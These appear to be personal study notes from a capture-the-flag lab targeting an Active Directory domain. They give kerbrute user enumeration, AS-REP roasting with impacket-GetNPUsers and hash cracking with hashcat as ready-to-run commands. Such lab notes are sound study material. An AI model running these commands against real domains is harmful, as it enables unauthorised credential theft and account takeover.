 # Finding users without Kerberos preauthentication
---
- Have a l**ist of `users.txt`** containing list of potential users.
- Kerbrute:
	- `kerbrute userenum -d EGOTISTICAL-BANK.LOCAL --dc 10.10.10.175 users.txt`
		- `userenum`: Enumerate Users
		- `-d`: Domain name
		- `--dc`: Domain controller IP
		- `users.txt`: file containing list of possible users
	- ==Note:- If you get `DOMAIN_NAME: Name or service not known`, add IP and domain in `/etc/hosts`file==

	![[Pasted image 20250424134552.png]]

# ASREP-Roasting
---
- We can no**w grab the user's hash:**
	- `impacket-GetNPUsers EGOTISTICAL-BANK.LOCAL/fsmith -no-pass -format john`
		- `-no-pass`: Don't ask for password (as we know this user does not have kerberos preauthentication)
		- `-format`: JohnTheRipper crackable format
	- ![[Pasted image 20250424135213.png]]
- **Another option** ==`GetNPUsers`== if we just want to **brute the `users`file:**
	- `impacket-GetNPUsers EGOTISTICAL-BANK.LOCAL/ -usersfile osint_output/usernames.txt  -no-pass -format john`
		- Instead of one user, it will try all the users in the give file/
	- ![[Pasted image 20250424135227.png]]


# Crack the hash using `hashcat`:
---
- `hashcat fsmith_hash.txt /usr/share/wordlists/rockyou.txt`
- ![[Pasted image 20250424135328.png]]